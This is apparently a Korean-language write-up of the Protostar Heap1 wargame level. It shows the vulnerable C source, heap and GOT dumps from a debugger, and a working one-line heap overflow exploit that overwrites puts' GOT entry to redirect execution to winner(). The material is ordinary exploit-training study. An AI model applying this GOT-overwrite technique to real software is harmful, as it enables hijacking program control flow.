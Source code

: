 # Wargame / Protostar / Heap1

[Protostar Heap1 - Exploit Exercises](https://exploit-exercises.com/protostar/heap1/)

>This level takes a look at code flow hijacking in data overwrite cases.
>This level is at /opt/protostar/bin/heap1


## Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```


## Initial execution

```bash
$ ./heap1
Segmentation fault (core dumped)

$ ./heap1 AAAA BBBB
and that's a wrap folks!

$ ltrace ./heap1 AAAA BBBB
__libc_start_main(0x80484b9, 3, 0xffffcdd4, 0x8048580 <unfinished ...>
malloc(8)                                                                                   = 0x804a008
malloc(8)                                                                                   = 0x804a018
malloc(8)                                                                                   = 0x804a028
malloc(8)                                                                                   = 0x804a038
strcpy(0x804a018, "AAAA")                                                                   = 0x804a018
strcpy(0x804a038, "BBBB")                                                                   = 0x804a038
puts("and that's a wrap folks!"and that's a wrap folks!
)                                                            = 25
+++ exited (status 25) +++
```


## Analysis

```
i1 =       0x0804a008
i1->name = 0x0804a018

i2 =       0x0804a028
i2->name = 0x0804a038
```


```
gef➤  x/50x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
```

`pwndbg` 는 `heap` 명령어도 heap 상황을 print 해주는 명령어가 있군요.

```
pwndbg> heap
Top Chunk: 0x804a040
Last Remainder: 0

0x804a000 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x1,
  bk = 0x804a018,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a010 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x41414141,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a020 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x2,
  bk = 0x804a038,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a030 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x42424242,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x20fc1
}
0x804a040 PREV_INUSE {
  prev_size = 0,
  size = 135105,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

`strcpy(i2->name, argv[2]);` 수행 시에 입력 값을 `i2->name` 으로 alloc 받은 pointer 로 copy 를 하게 된다. 이 값을 `printf` 함수의 GOT 값으로 설정을 하고, 입력 값을 `winner()` 함수 주소로 넣어다면 `printf()` 함수 수행 시에 `winner()` 함수가 수행될 것이다. 


#### `printf` 의 GOT 주소 확인 : `0x08049774`

Exploit 할 마지막 `printf` 포함된 assem code 를 보면 아래와 같이 `puts` 로 대치되어 있다. argument 별로 없는 짧은 경우 `printf` 가 `puts` 로 compile 된다고 들은 것 같다.

```
   0x08048552 <+153>:   mov    DWORD PTR [esp],eax
   0x08048555 <+156>:   call   0x804838c <strcpy@plt>
   0x0804855a <+161>:   mov    DWORD PTR [esp],0x804864b
   0x08048561 <+168>:   call   0x80483cc <puts@plt>
   0x08048566 <+173>:   leave
   0x08048567 <+174>:   ret
```


```
pwndbg> got
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/wargame/protostar/heap/heap1/heap1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

GOT protection: No RELRO | GOT functions: 7

[0804975c] __gmon_start__ -> 0x8048372 (__gmon_start__@plt+6) ◂— push   0 /* 'h' */
[08049760] __libc_start_main@GLIBC_2.0 -> 0x8048382 (__libc_start_main@plt+6) ◂— push   8
[08049764] strcpy@GLIBC_2.0 -> 0x8048392 (strcpy@plt+6) ◂— push   0x10
[08049768] printf@GLIBC_2.0 -> 0x80483a2 (printf@plt+6) ◂— push   0x18
[0804976c] time@GLIBC_2.0 -> 0x80483b2 (time@plt+6) ◂— push   0x20 /* 'h ' */
[08049770] malloc@GLIBC_2.0 -> 0x80483c2 (malloc@plt+6) ◂— push   0x28 /* 'h(' */
[08049774] puts@GLIBC_2.0 -> 0x80483d2 (puts@plt+6) ◂— push   0x30 /* 'h0' */
```


#### `winner()` 함수 주소 확인 : `0x8048494`

```
pwndbg> p winner
$1 = {void (void)} 0x8048494 <winner>
```



## Exploit

```bash
$ ./heap1 $(python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')
and we have a winner @ 1497206645
```

